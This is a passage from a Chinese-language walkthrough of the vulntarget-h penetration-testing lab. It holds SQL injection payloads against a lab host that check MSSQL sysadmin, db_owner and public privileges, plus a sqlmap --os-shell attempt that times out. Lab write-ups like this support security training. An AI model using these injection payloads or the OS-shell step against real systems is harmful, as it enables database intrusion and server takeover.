 + 判断该网站是否存在SQL注入。存在数字型注入。

> http://192.168.1.99/?user_id=1%20and%201=2

![Screenshot_2022-06-30_05-54-25.png](../images/vulntarget-h-WriteUp/Screenshot_2022-06-30_05-54-25.png)

+ 获取当前用户信息。

```bash
# 判断是否是SA权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('sysadmin'),4
# 判断是否是db_owner权限
?user_id=-1%20union%20select%200,1,2,is_member('db_owner'),4
# 判断是否是public权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('public'),4
```

+ 接下来使用`sqlmap`尝试是否能获取shell。但是无法反弹shell应该是被杀毒程序拦截。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap "http://192.168.1.99/?user_id=1" --os-shell
        ___
       __H__                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:05:41 /2022-06-30/

[06:05:42] [INFO] resuming back-end DBMS 'microsoft sql server' 
...
[06:09:00] [CRITICAL] connection timed out to the target URL

[*] ending @ 06:09:00 /2022-06-30/
```
